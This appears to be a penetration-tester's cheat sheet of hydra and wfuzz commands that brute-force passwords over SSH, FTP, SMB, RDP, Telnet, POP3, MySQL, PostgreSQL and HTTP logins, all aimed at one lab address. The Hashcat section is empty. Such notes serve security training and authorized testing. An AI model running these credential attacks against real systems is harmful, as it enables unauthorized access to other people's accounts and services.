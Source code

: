# Cracking Techniques

Usually the tools that I always use are hashcat, wfuzz, hydra and metasploit. 

- [SSH](#ssh)
- [FTP](#ftp)
- [SMB](#smb)
- [RDP](#rdp)
- [Telnet](#rdp)
- [Pop3](#pop3)
- [Mysql](#mysql)
- [Postgresql](#postgresql)
- [HTTP](#http)
- [References](#references)

### SSH

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ssh 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ssh

# Different Port 
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999
```

### FTP

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ftp

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ftp

# Different Port 
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp -s 9999
```

### SMB

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 smb

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 smb 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 smb

# With Domain
hydra -l user -P /opt/rockyou.txt -f -m Domain 10.10.8.83 smb 

```

### RDP

```
# Unknown User
hydra -L user.txt -p "Password" -f rdp://10.10.8.83

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f rdp://10.10.8.83

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f rdp://10.10.8.83
```

### Telnet

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 telnet

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet -s 9999
```

### Pop3

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 pop3

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3 -s 9999
```

### Mysql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 mysql

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql -s 9999
```

### Postgresql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 postgres 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres -s 9999
```

### HTTP

```
=> Hydra

# Unknown User
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown Password
hydra -f -l user -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown User and Password
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

=> Wfuzz
# Basic Authentication
wfuzz -u http://10.10.8.83 -H "Authorization : Basic FUZZ" -w userpass.txt --h459

wfuzz -w user.txt -w pass.txt --basic FUZZ:FUZ2Z http://10.10.8.83
```


### Hashcat

# References

[1] https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux

[2] https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

[3] https://medium.com/better-programming/can-we-automate-earning-bug-bounties-with-wfuzz-c4e7a96810a5